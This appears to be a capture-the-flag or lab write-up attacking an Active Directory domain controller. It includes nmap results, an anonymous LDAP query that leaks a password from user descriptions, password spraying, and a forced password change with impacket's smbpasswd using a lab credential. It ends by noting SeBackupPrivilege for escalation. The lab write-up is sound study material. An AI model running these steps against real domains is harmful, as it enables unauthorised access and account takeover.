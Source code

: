# Enumeration
Using nmap:
```
PORT      STATE SERVICE
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-30 09:38:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2024-03-29T09:36:30
|_Not valid after:  2024-09-28T09:36:30
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-03-30T09:38:30+00:00
|_ssl-date: 2024-03-30T09:39:11+00:00; -23h59m44s from scanner time.
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-30T09:38:30
|_  start_date: N/A
|_clock-skew: mean: -23h59m43s, deviation: 0s, median: -23h59m43s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49668/tcp open  msrpc      Microsoft Windows RPC
49674/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc      Microsoft Windows RPC
55015/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
Trying to enumerate ldap:
`ldapsearch -H ldap://baby.vl -b "DC=baby,DC=vl" -x objectclass=* | grep description`
![](attachment/22265eae6eea11c09fe4bc8e632ddcae.png)
Found a password.
Trying to password spray with crackmapexec:
![](attachment/6c1e3cf42931c01b615499c2adc56fe2.png)
Got a password must change.
So trying impacket smbpasswd:
`./smbpasswd.py baby.vl/Caroline.Robinson:'BabyStart123!'@10.10.64.5 -newpass aditya123@`
We successfully changed the password.

Now enumerating the Privileges we find **SeBackupPrivilege**
We can us this [article](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) proceeding forward
